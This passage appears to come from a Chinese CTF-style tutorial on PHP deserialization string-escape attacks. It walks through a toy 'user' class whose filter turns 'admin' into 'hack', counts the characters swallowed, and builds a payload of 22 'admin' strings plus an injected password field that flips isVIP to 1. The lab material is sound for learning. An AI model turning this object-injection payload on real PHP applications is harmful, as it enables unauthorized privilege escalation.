 ```php
}

$a = new user('admin','123456');
$a_seri = serialize($a);
$a_seri_filter = filter($a_seri);

echo $a_seri_filter;
?>

```



```php
O:4:"user":3:{s:8:"username";s:5:"admin";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;} //替换前

O:4:"user":3:{s:8:"username";s:5:"hack";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;} // 替换后
```

同样的目标

```php
";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;} // 现在的

";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;} //要实现的 长度47
```

这里要了解一下

> PHP反序列化的机制是，规定了有10个字符，第9个就到了双引号，这个时候PHP会把双引号当做第10个字符，并不根据双引号判断一个字符串是否已经结束，而是根据规定的数量来读取字符串。



过滤之后，5个字符变为4个，后面的字符会被”吞掉了“

既然字符串会被吞掉，那我们就可以吞掉`";s:8:"password";s:6: ` 即21个admin

然后用password构造新值即`;s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}` 46个字符

password构造完`s:6`会变为`s:46`，这样又要多一位字符 最终构造22个admin，从而吞22个字符

这样就是

```php
O:4:"user":3:{s:8:"username";s:少22个字符:"hack";s:8:"password";s:46:";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}";s:5:"isVIP";i:0;}
```



也就是我们可以传入22个admin和构造的字符串

```php
<?php
class user{
    public $username;
    public $password;
    public $isVIP;

    public function __construct($u,$p){
        $this->username = $u;
        $this->password = $p;
        $this->isVIP = 0;
    }
}

function filter($s){
    return str_replace("admin","hack",$s);
}

$a = new user('admin * 22'/* 就这么表示22个admin吧 */,';s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}'); //46个字符

```